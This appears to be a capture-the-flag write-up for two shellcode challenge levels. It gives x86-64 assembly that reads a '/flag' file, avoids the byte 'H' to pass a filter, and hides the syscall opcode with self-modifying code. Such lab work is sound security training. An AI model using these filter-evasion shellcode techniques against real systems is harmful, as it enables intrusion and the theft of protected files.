# level 4
- in this challenge, the shellcode should not contain "H". we can avoid "H" by xoring out the register and using mov with shorter registers.
```nasm
.intel_syntax noprefix

.global _start

_start:
    call pwn
    .string "/flag"
    .byte 0x00
pwn:
    ; open(flag, 0)
    xor eax, eax
    xor esi, esi
    xor edx, edx
    xor r10d, r10d
    push [rsp]
    pop rdi
    mov sil, 0
    mov al, 2
    syscall
    ; sendfile(1, rax, 0, 0x100)
    xor edi, edi
    mov dil, 1
    mov sil, al
    mov dl, 0
    mov r10, 0x100
    mov al, 40
    syscall
```
# level 5
- we cannot use syscall in this challenge. opcode for syscall is `0f 05` in hex. so, we can hardcode `0e 05` bytes in shellcode and increment this byte during runtime. 
```nasm
.intel_syntax noprefix

.global _start

_start:
    call pwn
    .string "/flag"
    .byte 0x00
pwn:
    ; open(flag, 0)
    mov rdi, [rsp]
    mov rsi, 0
    mov rax, 2
    inc byte ptr [rip]
    .byte 0x0e, 0x05
    ; sendfile(1, rax, 0, 0x100)
    mov rdi, 1
    mov rsi, rax
    mov rdx, 0
    mov r10, 0x100
    mov rax, 40
    inc byte ptr [rip]
    .byte 0x0e, 0x05
```